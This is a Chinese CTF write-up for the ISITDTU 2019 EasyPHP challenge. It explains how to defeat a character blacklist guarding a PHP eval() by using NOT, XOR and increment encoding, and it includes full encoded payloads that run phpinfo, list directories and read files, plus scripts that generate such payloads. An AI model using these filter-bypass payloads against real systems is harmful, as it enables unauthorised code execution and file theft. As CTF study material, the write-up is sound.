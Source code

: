 # \[ISITDTU 2019]EasyPHP

## \[ISITDTU 2019]EasyPHP

## 考点

* 无字符代码执行

## wp

```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```

代码执行，最后一个if不允许使用的字符超过12个

然后输入黑名单如下

```
ASCII值0-32
数字0-9 ASCII是48-57
'"`$&.,|[{_defgops ASCII对应39,34,96,36,38,46,44,124,91,123,95,100,101,102,103,111,112,115
```

到这里想到的绕过方式是异或和取反，然后在返回头看一下PHP版本是7.3，那就可以用函数执行的特性结合取反

phpinfo取反为%8F%97%8F%96%91%99%90，PHP7函数执行`(~%8F%97%8F%96%91%99%90)();`，长度为10

看到disable\_functions

![](<../.gitbook/assets/image (1).png>)

但是有字符使用的限制，所以还是要考虑其他方式。以前p牛说过无字符getshell可以用自增、位运算和取反，再偷一波陆队的思路。

现在可以考虑一下自增。PHP在获取HTTP参数时默认是字符串，然后可以用`!`进行布尔类型转换，再用`@`忽略notice输出，就可以把`!!@a`转化为数字1，然后再用`chr()`转换拼接就可以构造任意函数，但是需要用`.`拼接

```
// phpinfo();
(chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)%2b(!!@a%2b!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)-(!!@a%2b!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)%2b(!!@a%2b!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)-(!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)%2b(!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)-(!!@a%2b!!@a%2b!!@a%2b!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)%2b(!!@a%2b!!@a%2b!!@a)))();
```

使用异或，如果用爆破的方法就会很慢，偷一波陆队的思路。先确定自己想执行的语句，比如phpinfo，然后定一个参考字符串，让phpinfo和它异或，就可以得到想要的输入，如果得到的结果不符合要求，再微调参考字符串

```
p:%8f^%ff
h:%97^%ff
i:%96^%ff
n:%91^%ff
f:%99^%ff
o:%90^%ff
```

结果是`%8f%97%8f%96%91%99%90^%ff%ff%ff%ff%ff%ff%ff`，脚本如下：

```php
target = "phpinfo"
standard = 0xff

dicts = {}
for i in target:
    dicts[i] = hex(ord(i)^standard).replace('0x','%')

res = ''
for i in target:
    res = res+dicts[i]
print(res+'^'+"%ff"*len(target))
print(len(set(res+'^'+"%ff"*len(target))))
```

但是这里有个疑问，`%21^%4f`的结果是`n`，但是在测试的时候却不对

![](<../.gitbook/assets/image (18) (1) (1).png>)

加上引号就可以了

![](<../.gitbook/assets/image (31) (1).png>)

用数字也是同样的道理，一开始一直报错，但是把数字用`trim`转换一下就可以了。然后用自增找到数字

![](<../.gitbook/assets/image (14) (1) (1).png>)

```
p:A^1
h:Y^1
i:X^1
n:Z^4
f:W^1
o:Z^5
```

结果是`AYAXZWZ^1111415`

```
(trim((!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)*((!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)%2b(!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)*((!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)%2b(!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)-(!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)-!!%40a-!!%40a-!!%40a))%5e%40AYAXZWZ)();
```

这里如果要求字符种类最少，可以考虑使用%ff的方式，先生成语句，再去尝试找可以替换的字符。如下，共用了16个字符

```
print_r(scandir('.'))
(%8f%8d%96%91%8b%a0%8d^%ff%ff%ff%ff%ff%ff%ff)((%8c%9c%9e%91%9b%96%8d^%ff%ff%ff%ff%ff%ff%ff)((%d1^%ff)));
```

所以要找到可以替换的，即在内部可以互相异或出来的，目标代码用到的字符为`['n', 'p', 'c', 's', 'i', 'a', 't', 'd', 'r', '_', '.']`，写个脚本找一下

```python
s=['n', 'p', 'c', 's', 'i', 'a', 't',  'd', 'r', '_', '.']
for i in s:
    for j in s:
        for k in s:
            if (chr(ord(i)^ord(j)^ord(k)) in s):
                xorRes = i+'^'+j+'^'+k
                if len(set(xorRes)) == 4:
                    print(chr(ord(i)^ord(j)^ord(k))+'='+xorRes)
```

得到的结果对应如下

```
p %8f^%ff
r %8d^%ff
i %96^%ff    %9c^%ff^%9b^%91
n %91^%ff 
t %8b^%ff
_ %a0^%ff
s %8c^%ff    %9c^%ff^%9b^%8b
c %9c^%ff
a %9e^%ff    %8d^%ff^%9c^%8f
d %9b^%ff
. %d0^%ff
```

找一下就可以找到，原则先找必须存在的字符，比如`.`和`_`，那么`a,d,0`也必须存在，那么r就必须存在，同样的，对于字符c和d，在生成的URL编码中也有，所以c和d也必须存在，如果换掉，相当于没有做异或，对于n和i而言，哪个都可以，后续不牵扯到6和1，然后看t和s，他们也是哪个都可以，他们URL编码中的b和c都已经存在，最后是a和p，明显a含有的字符更多，要保留p

```
a=r^c^p
s=c^d^t 
i=c^d^n 
```

最后结果

```
p %8f^%ff
r %8d^%ff
i %9c^%ff^%9b^%91
n %91^%ff 
t %8b^%ff
_ %a0^%ff
s %9c^%ff^%9b^%8b
c %9c^%ff
a %8d^%ff^%9c^%8f
d %9b^%ff
. %d1^%ff
```

`print_r(scandir('.'))`

```
(%8f%8d%9c%91%8b%a0%8d^%ff%ff%ff%ff%ff%ff%ff^%ff%ff%9b%ff%ff%ff%ff^%ff%ff%91%ff%ff%ff%ff)((%9c%9c%8d%91%9b%9c%8d^%ff%ff%ff%ff%ff%ff%ff^%9b%ff%9c%ff%ff%9b%ff^%8b%ff%8f%ff%ff%91%ff)((%d1^%ff)));
```

![](<../.gitbook/assets/image (13).png>)

`readfile(end(scandir('.')))`

```
((%8D%9A%9E%9B%99%96%93%9A)^(%FF%FF%FF%FF%FF%FF%FF%FF))(((%9A%9E%9B)^(%FF%99%FF)^(%FF%96%FF)^(%FF%FF%FF))(((%8D%9E%9E%9E%9B%96%8D)^(%9A%9B%FF%99%FF%FF%FF)^(%9B%99%FF%96%FF%FF%FF)^(%FF%FF%FF%FF%FF%FF%FF))(%D1^%FF)));
```

## 小结

1. [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
2. [无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

